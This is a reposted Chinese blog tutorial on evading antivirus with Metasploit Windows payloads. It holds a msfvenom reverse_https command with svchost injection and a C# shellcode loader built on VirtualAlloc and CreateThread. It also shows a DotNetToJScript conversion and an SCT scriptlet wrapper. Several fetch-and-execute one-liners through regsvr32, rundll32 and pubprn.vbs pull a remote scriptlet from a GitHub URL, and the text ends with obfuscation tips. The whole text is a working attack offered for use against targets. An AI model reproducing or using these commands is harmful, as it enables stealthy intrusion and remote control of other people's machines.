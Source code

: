 +++
title = "免杀 MSF Windows Payload 的方法与实践"
author = "Hzllaga"
date = 2018-08-07
categories = [ "转载" ]
tags = ["免杀","Payload","shellcode","Metasploit"]

+++
MSF 已经是广为人知的非常流行的渗透平台，没有之一。而作为专注于后渗透的我，最常用的也是 MSF 强大的后渗透功能。在实战当中，经常需要在目标环境中获取一个 Meterpreter 的 shell。那么我面临的第一个问题，就是如何安安稳稳地、神不知鬼不觉地在目标环境中执行 Meterpreter 的 Payload。目前网上流行的免杀和隐蔽执行的思路有很多，今天我给大家介绍一下我屡试不爽的猥琐流方法。 <!--more-->
## 准备 Payload
这个过程比较简单，大多数人应该都会。我们这里使用 msfvenom 生成一个 x86 的 Meterpreter 的 Payload 为例，直接上命令： 
{{< highlight shell >}}
msfvenom  -p windows/meterpreter/reverse_https -a x86 -f csharp --platform windows -o https.csharp -b "\x00\xff" LHOST=192.168.1.222 LPORT=443 PrependMigrate=true PrependMigrateProc=svchost.exe
{{< /highlight >}}
大部分参数都不用过多解释了，常用 MSF 的人都知道。需要说明的是，我们要借助于 C# 来执行生成的 Payload，所以格式要选择为 csharp，而最后两个参数（PrependMigrate 和 PrependMigrateProc）是指明 Payload 执行后要将自己注入到一个新创建的宿主 svchost.exe 进程中去。 生成的结果如下图（cat 命令显示的结果有问题，不用管它）：![](https://cdn.wtfsec.org/img/20200222165439.png)

## 准备 C# 工程
我们需要创建一个 C# 工程，我这里使用 Visual Studio 2017。新建一个空白的 C# 的 Console 工程，.Net Framework 版本选择 2.0（保证兼容性）。 将如下代码黏贴覆盖到 Program.cs 中： 
{{< highlight csharp >}}
using System;
using System.Threading;
using System.Runtime.InteropServices;
namespace MSFWrapper
{
    public class Program
    {
        public Program()
        {
           RunMSF();
        }
        public static void RunMSF()
        {
            byte[] MsfPayload = {
            //Paste your Payload here
        };
            IntPtr returnAddr = VirtualAlloc((IntPtr)0, (uint)Math.Max(MsfPayload.Length, 0x1000), 0x3000, 0x40);
            Marshal.Copy(MsfPayload, 0, returnAddr, MsfPayload.Length);
            CreateThread((IntPtr)0, 0, returnAddr, (IntPtr)0, 0, (IntPtr)0);
            Thread.Sleep(2000);
        }
        public static void Main()
        {
        }
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    }
}
{{< /highlight >}}
然后将先前生成的 Payload 的黏贴到代码中注释为“//Paste your Payload here”的地方。保存代码后，修改该工程的属性，将输出类型改为“Windows 应用程序”，启动对象改为“MSFWrapper.Program”, 然后保存。 增加 Release 版的 x86 编译对象，然后生成出 MSFWrapper.exe。 
## 转换 MSFWrapper.exe 为 js 文件
这里要用到一个非常流弊的工具 DotNetToJScript，这是一款可以将 .net 程序转换为 jscript 代码的。工具下载地址：[Github](https://github.com/tyranid/DotNetToJScript)
使用如下命令进行转换： 
{{< highlight shell >}}
DotNetToJScript.exe -l=JScript -o=MSFWrapper.js -c=MSFWrapper.Program MSFWrapper.exe
{{< /highlight >}}
然后我们就可以用下面的命令执行我们的 MSF Payload： 
{{< highlight shell >}}
C:\windows\SysWOW64\cscript.exe /e:JScript MSFWrapper.js
{{< /highlight >}}
这里一定要注意，因为我们生成的 Payload 跟 exe 都是 32 位的，所以这里也要用 32 的 cscript.exe 去执行。切记！
## 进一步猥琐化
sct 大法 既然能够转换为 js 代码，那么我们自然会想到 sct 大法的应用。我们将转换后的 js 代码黏贴到下面代码中的“//paste code here”： 
{{< highlight xml >}}
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="Msf"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
    //paste code here
    </script>
</registration>
</scriptlet>
{{< /highlight >}}
保存为 msf.sct（后缀名可以更改，比如 jpg 等）并上传至 Web Server 然后在目标机器上执行如下命令： 
{{< highlight shell >}}
c:\windows\SysWOW64\regsvr32 /s /u /n /i:https://raw.githubusercontent.com/Moriarty2016/Screenshots/master/msf.sct c:\windows\SysWOW64\scrobj.dll''
{{< /highlight >}}
Bingo！ 另外，我们也可以使用 script 或者 scriptlet 的方式来深度利用，这里我们要使用 DotNetToJSCript.exe 的 -m 参数来生成 scriptlet 文件，命令如下： 
{{< highlight shell >}}
DotNetToJScript.exe -m -o=msf2.sct -c=MSFWrapper.Program MSFWrapper.exe
{{< /highlight >}}
将 msf2.sct 文件上传到 Web Server 上，然后用如下命令在目标环境中执行： 
{{< highlight shell >}}
c:\windows\syswow64\rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/Moriarty2016/Screenshots/master/msf2.sct");this.close()
{{< /highlight >}}
Bingo!Bingo! 当然，如果目标环境是 Windows 7 以上版本，还可以这样： 
{{< highlight shell >}}
c:\windows\SysWOW64\cscript.exe c:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1 script:https://raw.githubusercontent.com/Moriarty2016/Screenshots/master/msf2.sct
{{< /highlight >}}
Bingo!Bingo!Bingo! 

## 关于深度免杀
一般情况下按照上述方法，基本就可以免杀了。如果还有特殊要求的话，可以考虑做如下的额外工作： 考虑对 MSF 生成的 Payload 用 MSF 自带的编码器进行编码，或者自己自定义方式去编码。 然后 base64 编码后，放入 C# 代码中。 生成的 js 代码可以进行模糊编码处理。 总之，一旦将二进制的东西变成脚本之后，免杀起来就会非常的简单！自己去发挥吧！ 